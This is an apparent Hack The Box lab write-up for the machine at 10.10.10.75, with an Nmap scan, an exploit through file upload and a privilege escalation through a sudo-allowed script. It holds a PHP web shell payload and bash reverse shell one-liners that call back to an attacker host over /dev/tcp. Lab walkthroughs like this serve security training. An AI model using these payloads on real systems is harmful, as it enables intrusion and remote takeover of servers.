 # Information gathering

## system network

10.10.10.75

## Nmap Scan Result

``` bash
PORT   STATE SERVICE VERSION                                                           
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)      
| ssh-hostkey:                                                                         
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)                        
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)                      
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                    
|_http-title: Site doesn't have a title (text/html).                                   
|_http-server-header: Apache/2.4.18 (Ubuntu)                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Exploit

file upload 

![image-20221222152717789](D:\OSCP\hackthebox\attachments\image-20221222152717789.png)

*payload*

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

*webshell*

![image-20221222152827151](D:\OSCP\hackthebox\attachments\image-20221222152827151.png)

*Reverse Shell*

```bash
/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.14.8/6001+0>%261'
```



#### Proof

![image-20221222153441558](D:\OSCP\hackthebox\attachments\image-20221222153441558.png)

### Lateral Movement



### Privilege Escalation

```bash
sudo -l
```

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6003 0>&1'
```

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```



#### proof

![image-20221222160502737](D:\OSCP\hackthebox\attachments\image-20221222160502737.png)